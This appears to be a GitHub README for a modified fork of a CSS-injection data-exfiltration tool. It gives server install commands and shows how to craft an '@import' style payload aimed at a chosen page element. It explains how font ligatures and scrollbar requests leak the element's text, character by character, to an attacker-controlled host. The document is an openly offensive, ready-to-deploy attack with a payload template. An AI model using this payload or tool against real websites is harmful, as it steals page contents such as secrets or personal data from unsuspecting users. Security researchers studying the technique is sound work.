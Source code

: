 # Preface

Code is kinda janky and not well tested. 

# Install on your own server

0. Get a Debian 12 VPS and link a domain(any.com) to your server and wait for it to  propagate(https://www.whatsmydns.net/) (usually takes max 1hour depending on the ttl configured for your domain)

1. Run the following on the Debian 12 VPS:

   ```bash
   apt install certbot python3-certbot-apache -y
   certbot --authenticator webroot --installer apache --register-unsafely-without-email
   ```
  - Agree to the terms, enter the domain(any.com) you linked earlier and enter the webroot /var/www/html

2. Then run the following:

```bash
apt install git -y && git clone https://github.com/sys0wn/css-scrollbar-attack && cd css-scrollbar-attack && chmod +x install.sh && bash install.sh
```
# How to use it

0. Use a chromium-based Browser that supports webkit scrollbar-styling. I have tested Chromium and Google Chrome.
1. On the website you are trying to target pick an html element you want to steal.
2. Find a combination of css selectors, that points directly to the element(e.g: p { color: red } targets all p-tags, so if there is more than 1 it doesn't point to ONLY one element and therefore no exfiltration will be possible). Use Selectors like ```https://developer.mozilla.org/en-US/docs/Web/CSS/CSS_selectors``` and combine as many as needed to point directly to the target element. Examples for this:

```
<!doctype html>
<body>
<div>
   <h4>a</h4>
   <p id=leakme class="leakme">stealThis</p>
</div>
</body>
</html>
```

Here, the "stealThis" could be pointed to for example by: p {}, div > p {}, #leakme {}, .leakme {}, div > #leakme {}, body > div > p {}, h4 + p {}, div > h4 + p {} and many many more


You can test if your combination of selectors points directly to your target element by hitting CTRL+SHIFT+C and searching for something like ```#leakme``` or ```div > p```; If there is only one result for your search that is a combination of selectors you can use!

3. Create the payload for your CSS-Injection by plugging your combination of selectors into the following syntax: ```<style>@import url('//any.com/%23leakme/css.css');</style>``` where you have to replace the %23leakme with your URL-ENCODED(you can use websites like https://www.urlencoder.org/) combination of selectors.

# Example

```
<!doctype html>
<body>
<div>
   <h4>a</h4>
   <p id=leakme class="leakme">stealThis</p>
</div>
</body>
</html>
```

```div > h4 + p```  -->  ```<style>@import url('//any.com/div%20%3E%20h4%20%2B%20p/css.css');</style>```

# Demo

https://jsfiddle.net/q3mc5kxn/1/

https://any.com/index.html                 //Once you've installed it on your server


# How it works (short)

If <style>@import url('//any.com/div%20%3E%20h4%20%2B%20p/css.css');</style> is injected into a website the server will create a lot of fonts with different ligatures (https://en.wikipedia.org/wiki/Ligature_(writing)) that are used to bruteforce one character at a time by performing a binary search on the target text and exfiltrating it to a remote server. All the logic is serverside and the only client-side code that has to be injected is the <style> tag above that points to the target element.

# How it works (medium)


https://any.com/ is running a node server(this Github project), which will be the backend for the attack and serve all the css and handle the logic involved.
***
A ligature in a font is a sequence of at least two characters, which has its own graphical representation (for more info https://en.wikipedia.org/wiki/Ligature_(writing))
***

1. The @import will send a GET request to https://any.com/div%20%3E%20h4%20%2B%20p/css.css
2. The server receives the combination of selectors ```div%20%3E%20h4%20%2B%20p``` and therefore now knows which element to target and which text to steal
3. As a response to the GET request the following css is returned ```@import url('//any.com/start');```. This css will also be applied to the target page and a GET Request will be sent to https://any.com/start

4. Now, as a response to /start the any.com backend will do the following:

- For each character in "@.abcdefghijklmnopqrstuvwxyz...", generate a ligature starting from the first-letter. So lets say the text of the target element starts with a "s"; we will create 3 fonts: 1 for "@.abcdefgh", 1 for "ijklmnopqr" and 1 for "stuvwxyz". Now we create the ligatures: font 1 will have a ligature for "s@", "s.", "sa", "sb" ...  font2 will have a ligature for "si", "sj" ... and so on. 
- Using a CSS animation apply each of the fonts to the target-element one after each other. The first font that causes one of the ligatures("s@", "s.", "st", "sa" ...) to render is interesting to us, as if e.g. the font for "@.abcdefgh" causes a ligature to render, that gives us the information, that the second character is one of "@.abcdefgh". (Because a ligature from the first letter to the second letter was rendered which means that the second character has to be one of "@.abcdefgh".
- In order to exfiltrate this information, each of the ligatures has a very high ```horiz-adv-x``` value. This will result in the target-element getting substantially wider if the current "correct" font  is applied and a ligature is rendered. This width change will cause a scrollbar to appear. If the scrollbar appears, it will exfiltrate the information, that the second letter is one of "@.abcdefgh". This is done like this:

```
p::-webkit-scrollbar {
    background: blue;
}
p::-webkit-scrollbar:horizontal {
    background:var(--x);
}`;
```

Where --x (a css variable) is set to something like "https://any.com/@.abcdefgh" when font1 is applied at the beginning.

- Now, start again. This time create ligatures for each character in "@.abcdefgh" -> font1: "@.ab" font2: "cde", font3: "fgh"
- Keep using the same technique to perfrom a kind of binary search on each letter using ligatures, cutting the amount of possible letters in half every time until only one remains. Then move on the next letter performing the next binary search until the entire word is leaked.

References: https://aszx87410.github.io/beyond-xss/en/ch3/css-injection-2/, https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection, https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf, https://github.com/cgvwzq/css-scrollbar-attack/

# How it works (long)

Read the (kinda) documented source code (index.js)

# Limitations

- In the current configuration ~30 chars is max amount that can be exfiltrated but this is not a hard limit and can be increased I think
- Characters a-z A-Z 0-9 .@+!#=$^    but in theory there are no limitations which printable characters are possible, it's just a hassle because you have to correctly encode it and stuff.
- The Browser tab from which the text will be exfiltrated always has to stay in focus(don't switch tab, dont minimize window etc.)
- It takes some time to exfiltrate the text, but this can be optimised, for example by using only a-z if the others aren't needed or decreasing the DURATION and/or DELAY variable in the js and so on. The current configuration of the code is aimed at reliability and support for as much chars as possible etc.

# Tip

- If you face seemingly illogical errors while trying to reproduce this go to: ```chrome://settings/privacy``` and clean the cache(fonts are cached which might mess with the detection and exfiltration.
***
# This repo is a fork of https://github.com/cgvwzq/css-scrollbar-attack which I have modified, improved and documented. Thanks to cgvwzq for the awesome code and thanks to @SecurityMB (https://sekurak.pl/wykradanie-danych-w-swietnym-stylu-czyli-jak-wykorzystac-css-y-do-atakow-na-webaplikacje/) for coming up with (part of) the idea (I think).
